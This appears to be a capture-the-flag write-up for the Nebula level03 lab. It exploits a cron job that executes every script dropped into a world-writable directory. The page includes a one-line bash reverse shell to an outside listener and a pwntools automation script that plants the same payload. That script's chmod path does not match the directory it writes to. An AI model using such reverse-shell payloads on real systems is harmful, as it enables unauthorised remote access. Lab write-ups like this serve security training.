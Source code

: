 # Level03

#### Description

Check the home directory of **flag03** and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the **level03** account with the password level03. Files for this level can be found in /home/flag03.

#### Solution

```bash
level03@nebula:/home/flag03$ ls -la
total 6
drwxr-x--- 3 flag03 level03  103 2011-11-20 20:39 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag03 flag03   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag03 flag03  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag03 flag03   675 2011-05-18 02:54 .profile
drwxrwxrwx 2 flag03 flag03     3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03    98 2011-11-20 21:22 writable.sh
level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

So, here's a directory `writable.d` owned by flag03(target) and we have read, write and execute permission on it. A script `writable.sh` is also there which is firstly executing one by one files under that `writable.d` directory and then remove it.

What if we create a malicious bash script inside that folder, so that whenever that `writable.sh` triggered by flag03(cronjob), the script we made will executed and so, that we will gain shell as flag03.

```bash
level03@nebula:/home/flag03$ cd writable.d/
level03@nebula:/home/flag03/writable.d$ echo '/bin/bash -i >& /dev/tcp/192.168.117.128/4445 0>&1' > script.sh
level03@nebula:/home/flag03/writable.d$ chmod +x script.sh
level03@nebula:/home/flag03/writable.d$ ls -la
total 4
drwxrwxrwx 1 flag03  flag03  60 2025-09-25 02:24 .
drwxr-x--- 1 flag03  level03 60 2011-11-20 20:39 ..
-rwxrwxr-x 1 level03 level03 51 2025-09-25 02:24 script.sh
```

And we got reverse shell on the listener.

```bash
┌──(ghost㉿kali)-[~]
└─$ rlwrap -f . -r nc -nvlp 4445
listening on [any] 4445 ...
connect to [192.168.117.128] from (UNKNOWN) [192.168.117.140] 51475
bash: no job control in this shell
flag03@nebula:~$ id
id
uid=996(flag03) gid=996(flag03) groups=996(flag03)
flag03@nebula:~$ getflag
getflag
You have successfully executed getflag on a target account
```

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level03', password='level03')

# start a remote shell
terminal = session.shell()

# Making a reverse shell inside writable.d directory
terminal.sendline("echo '/bin/bash -i >& /dev/tcp/192.168.117.128/4445 0>&1' > /home/flag03/writable.d/rev.sh")
terminal.sendline("chmod +x /home/flag03/writable/rev.sh")

terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

***
